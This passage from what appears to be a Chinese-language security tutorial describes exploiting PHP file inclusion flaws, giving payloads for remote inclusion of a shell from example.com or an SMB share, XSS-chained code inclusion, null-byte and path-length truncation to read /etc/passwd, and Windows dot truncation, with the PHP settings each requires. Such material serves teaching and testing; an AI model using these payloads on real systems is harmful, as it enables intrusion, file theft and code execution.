 ![](http://www.secbox.cn/wp-content/uploads/2015/12/71.jpg)
(需要allow_url_include=On)

利用XSS执行任意代码：
?file=http://127.0.0.1/path/xss.php?xss=phpcode

(需要allow_url_fopen=On，allow_url_include=On并且防火墙或者白名单不允许访问外网时，先在同站点找一个XSS漏洞，包含这个页面，就可以注入恶意代码了。条件非常极端和特殊- -)

2、当后缀名被固定时，可以使用截断包含。

<?php include($_GET['file'] . ".htm"); ?>

?file=http://example.com/shell

?file=http://example.com/shell.txt?

?file=http://example.com/shell.txt%23

(需要allow_url_fopen=On并且allow_url_include=On)

?file=\evilshare\shell.php 

(只需要allow_url_include=On)

当包含时只输入文件名，不输入后缀。但此时
可以输入?page=../../../../../../../../../etc/passwd%00
%00会截断。这种方法需要 magic_quotes_gpc=off，PHP小于5.3.4有效。否则%00会被转义

php小于5.3时，也可以利用最大目录长度的限制可以到达截断，如
../../../../../../(此处省略)/../etc/passd
在linux为4096字节，windows下256字节。
另外可以使用？来实现伪截断

点号截断：
/boot.ini/………[…]…………
(php版本小于5.2.8(?)可以成功，只适用windows，点号需要长于256)


这些漏洞产生原因是PHP函数在引入文件时，传入的文件名没有经过合理的校验，从而操作了预想之外的文件。实际上我们操作文件的函数不只是include()一个，上面提到的一些截断的方法同样可以适用于以下函数：

![](http://static.wooyun.org/20141112/2014111204023129613.png)

